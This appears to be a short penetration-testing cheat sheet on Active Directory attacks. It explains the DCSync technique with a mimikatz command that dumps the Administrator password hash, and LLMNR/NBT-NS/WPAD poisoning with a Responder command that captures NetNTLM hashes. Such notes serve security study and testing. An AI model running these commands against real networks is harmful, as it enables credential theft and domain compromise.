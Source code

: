 ### DCSync Attack

-> The DCSync attack consists of requesting a replication update with a domain controller and obtaining the password hashes of each account in Active Directory without ever logging into the domain controller.
```
./mimikatz.exe "lsadump::dcsync /user:Administrator"
```

### NetNTLM Authentication Exploits with SMB - LLMNR Poisoning - Capturing hash in responder

Responder allows you to perform Man-in-the-Middle attacks by poisoning responses during NetNTLM authentication, making the client talk to you instead of the real server it wants to connect to.
On a real lan network, the responder will attempt to poison all Link-Local Multicast Name Resolution (LLMNR), NetBIOS Name Server (NBT-NS), and Web Proxy Auto-Dscovery (WPAD) requests detected. NBT-NS is the precursor protocol to LLMNR.
```
responder -I eth0 -v
```

<!--- Last Updated July 8, 2024 --- >
